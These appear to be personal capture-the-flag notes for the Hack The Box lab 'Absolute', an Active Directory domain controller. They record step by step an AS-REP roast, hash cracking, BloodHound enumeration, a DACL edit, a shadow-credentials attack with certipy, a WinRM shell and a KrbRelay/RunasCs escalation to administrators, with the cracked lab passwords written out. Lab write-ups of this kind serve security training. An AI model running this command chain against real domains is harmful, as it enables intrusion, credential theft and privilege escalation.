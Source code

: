 Using autorecon to enumerate:
```
# Nmap 7.94SVN scan initiated Tue Feb 20 17:52:22 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/absolute/results/10.10.11.181/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/absolute/results/10.10.11.181/scans/xml/_full_tcp_nmap.xml 10.10.11.181
Increasing send delay for 10.10.11.181 from 0 to 5 due to 91 out of 227 dropped probes since last increase.
Warning: 10.10.11.181 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.181
Host is up, received user-set (0.046s latency).
Scanned at 2024-02-20 17:52:22 IST for 625s
Not shown: 65500 closed tcp ports (reset)
PORT      STATE    SERVICE       REASON                              VERSION
80/tcp    open     http          syn-ack ttl 127                     Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Absolute
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open     kerberos-sec  syn-ack ttl 127                     Microsoft Windows Kerberos (server time: 2024-02-20 19:31:13Z)
135/tcp   open     msrpc         syn-ack ttl 127                     Microsoft Windows RPC
389/tcp   open     ldap          syn-ack ttl 127                     Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA/domainComponent=absolute
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355:ce67:4d7e:e8ab:e5d1:ec4c:8482:550b
| SHA-1: c9cb:a13e:be47:d989:40d5:92e2:b9ef:cfff:9ef4:53e5
|_ssl-date: 2024-02-20T19:32:46+00:00; +7h00m00s from scanner time.
445/tcp   open     microsoft-ds? syn-ack ttl 127
464/tcp   open     kpasswd5?     syn-ack ttl 127
593/tcp   open     ncacn_http    syn-ack ttl 127                     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      syn-ack ttl 127                     Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA/domainComponent=absolute
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355:ce67:4d7e:e8ab:e5d1:ec4c:8482:550b
| SHA-1: 
|_ssl-date: 2024-02-20T19:32:47+00:00; +7h00m00s from scanner time.
689/tcp   filtered nmap          no-response
3269/tcp  open     ssl/ldap      syn-ack ttl 127                     Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-20T19:32:46+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA/domainComponent=absolute
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-17T21:11:52
| Not valid after:  2024-07-16T21:11:52
| MD5:   8355:ce67:4d7e:e8ab:e5d1:ec4c:8482:550b
| SHA-1: c9cb:a13e:be47:d989:40d5:92e2:b9ef:cfff:9ef4:53e5

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64848/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16687/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58099/udp): CLEAN (Failed to receive data)
|   Check 4 (port 41463/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2024-02-20T19:32:40
|_  start_date: N/A

TRACEROUTE (using port 7847/tcp)
HOP RTT      ADDRESS
1   43.93 ms 10.10.14.1
2   44.01 ms 10.10.11.181

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 18:02:47 2024 -- 1 IP address (1 host up) scanned in 625.40 seconds

```

adding the hostname to /etc/hosts for *DNS Resolution*:
![](attachment/700cf9eea9cbf2a38409029650d86126.png)
A webpage is running on port 80:
![](attachment/f05a8dca9f117e443a9f103b73de0db2.png)
Now downloading all the images in the repository:
`wget -r 10.10.11.181`
Using exiftool for metadata:
`exiftool hero_1.jpg` 
The authors are listed in the metadata so to get all the authors:
`find . -type f -exec exiftool {} \; | grep Author`
![](attachment/fdd8755f0cabc5dc8d0588fa52977f29.png)
Now to list only authors:
`find . -type f -exec exiftool {} \; | grep Author|awk -F: '{print $2}'| sed 's/^ //g' > username.txt`
Now using anarchy https://github.com/urbanadventurer/username-anarchy
Now fixing the usernames according to the example format:
![](attachment/9376b786fbd026320f024f4329a1d3be.png)
`ruby username-anarchy/username-anarchy -i username.txt -f flast,f.last,first.last,last.first `
![](attachment/aaeeb8b6f8d0c9b35ac8e241d66cb4ee.png)
# Exploitation
## ASREPRoast
Now to brute force using kerbrute (or impacket GetNPUser) https://github.com/ropnop/kerbrute
`./kerbrute_linux_amd64 userenum --dc dc.absolute.htb -d absolute.htb username.txt -o valid-users.txt`
![](attachment/0cc399d61eaf1d541c9ae9435a29daf4.png)
`cat valid-users.txt |grep USERNAME|awk '{print $7}' > tmp`
`mv tmp valid-users.txt`
Now to change time to domain controller time:
`sudo ntpdate dc.absolute.htb`

Use latest kerbrute for hashes. git clone and `go build`
Now we get a hash running it again:
![](attachment/389af08fcd2eac1609e32f0f4c1fb623.png)
Now use the hash to crack on hashcat but its the wrong type of `kerberos 5 etype 23` by auto.
So we gotta --downgrade with kerbrute:
`./kerb userenum --dc dc.absolute.htb -d absolute.htb username.txt --downgrade`![](attachment/0f1a2eb7f0170163479f8b179e00f58a.png)
THIS IS etype 23 (can tell from the first line)
Password: d.klay@absolute.htb: `Darkmoonsky248girl`
Validate with *crackmapexec*
`cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl`
![](attachment/db30272b9288cb9961e6b17b1f8d0f66.png)
First get ticket with impacket:
`getTGT.py absolute.htb/d.klay`
Now using bloodhound:
`KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c All -d absolute.htb -u d.klay@absolute.htb`
but use bloodhound from https://github.com/jazzpizazz/BloodHound.py-Kerberos for kerberos support.
![](attachment/3c5e8da9b54ada714431f65b04042637.png)
Marking everyone under winrm_user as high value as we can get a shell.
![](attachment/0dc2afceaa0ace460dd68b60d30791ec.png)
Marking everyone under domain users as high value too.

Using kerberos login to enumerate smb:
`cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl -k --shares`
![](attachment/b61b42470459082112277374690b96bb.png)
We have password for svc_smb in bloodhound:
![](attachment/69ee3e1d3a5aa2ce3e533f162d62be58.png)
To get it manually:
`cat 20240302180235_users.json | jq '.data[].Properties | .samaccountname + ":" + .description' -r`
![](attachment/beb77b512ed0a9ec4277a49553bf52b1.png)Now checking smb shares:
![](attachment/1f8d6c97c9f77b8bd90ba97860741d2c.png)
To do the same enumeration with ldapsearch instead of bloodhound. First initialise the kerberos client in /etc/krb5.conf
then use `kinit` to initialize
![](attachment/98ee6344d0ff3546d23cd14383d2b2cd.png)
`ldapsearch -H ldap://dc.absolute.htb -s base -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"`
Now get TGT using:
`getTGT.py absolute.htb/svc_smb`
Then use smbclient for kerberos login:
`KRB5CCNAME=svc_smb.ccache ./smbclient.py -k absolute.htb/svc_smb@dc.absolute.htb -target-ip 10.10.11.181`

We find test.exe in the smb
Now trying it in windows vm we need to port forward with
```
sudo iptables -A FORWARD -i tun0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
                                                    sudo iptables -A FORWARD -i eth0 -o tun0  -j ACCEPT                                    
sudo iptables -t nat -A POSTROUTING -s 192.168.161.0/24 -o tun0 -j MASQUERADE   
```
Then in windows:
`route add 10.10.10.0/23 mask 255.255.254.0 192.168.58.230`
 Then add dns 
Then running test.exe and using wireshark to sniff:
![](attachment/752b2bb8fc46a4e92e53ec979d5840b8.png)
Now follow TCP Stream:
![](attachment/b5ad91b33697f5eaee812112fc23ab12.png)
We get the creds for a user
m.lovegod AbsoluteLDAP2022!
Marking as owned in bloodhound we can see the "transitive object control" for m.lovegods
![](attachment/27fcbdc222d774fe93121d9121aa289e.png)
Now to add ourselves to NETWORK AUDIT
Get dacledit.py from the repo https://github.com/ShutdownRepo/impacket.git
`python3 -m venv .venv `
`source .venv/bin/activate`
`pip install .`

Now get the TGT for m.lovegod
```
getTGT.py absolute.htb/m.lovegod
```
Then 
```
KRB5CCNAME=/home/kali/Downloads/absolute/m.lovegod.ccache ./dacledit.py -k -no-pass -dc-ip 10.10.11.181 -principal m.lovegod -target "Network Audit" -action write -rights FullControl absolute.htb/m.lovegod 
```

Then do `kinit m.lovegod` to add creds.
Then edit /etc/krb5.conf
![](attachment/298497c54fdc5e0c9d92c591d5dfe53e.png)
`net rpc group addmem "Network Audit" -k -U m.lovegod -S dc.absolute.htb m.lovegod`
To add the member

Now checking `net rpc group members "Network Audit" -k -U m.lovegod -S dc.absolute.htb`
![](attachment/a0c7a9c723b814868537129831db500e.png)
Bloodhound suggests to use pywhisker
But using certipy instead for Shadow credential attack
`KRB5CCNAME=m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user`

Then to get shell in winrm:
`KRB5CCNAME=winrm_user.ccache evil-winrm -r absolute.htb -i dc.absolute.htb`
![](attachment/0a5c466b5a0c1f34136d093c34e52ccc.png)
Now uploading [KrbRelay.exe](https://github.com/cube0x0/KrbRelay) to the machine we try the command:
`.\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user`
For a krbrelay attack but we get an error![](attachment/271990e7aa4ff1e5c628342e45e54045.png)

---
**NOTE**: BEFORE USING RUNAS CHECK THAT THE WHOLE COMMAND IS IN '' AND THE ARGUMENT INSIDE IS IN "". TRY USING TRUSTEDINSTALLER CLSID IF ERROR.

---

It is a credential issue so using [RunasCs.exe](https://github.com/antonioCoco/RunasCs) Now `.\RunasCs.exe -l -h` for help:
![](attachment/9471e4396cc0ed4b94f00f3837a7791b.png)
But still the same error  with `.\RunasCs.exe m.lovegod -l 9 -d absolute.htb AbsoluteLDAP2022! "KrbRelay2.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember 'Domain Admins' winrm_user"`

Changing the  clsid:
`.\RunasCs.exe m.lovegod -l 9 -d absolute.htb AbsoluteLDAP2022! "KrbRelay2.exe -spn ldap/dc.absolute.htb -clsid 0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE  -Port 10 -add-groupmember 'Domain Admins' winrm_user"`
We get a different error:
![](attachment/d5c4e1e1e8cc0bdab633281ca86ee2c1.png)
The clsid is a problem so getting it from [Juicy Potato](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard) from trustedInstaller as it always runs as system.
But the same godamn error. 
`.\RunasCs.exe m.lovegod -l 9 -d absolute.htb AbsoluteLDAP2022! "KrbRelay2.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -Port 10 -add-groupmember Administrators winrm_user"`
Removing the quotes solved the issue - _ -
Checking now with `net group administrators`
![](attachment/cbce24f1db9bcd4b4eac0bcdac94bcd6.png)
We have been added to the administrators group 
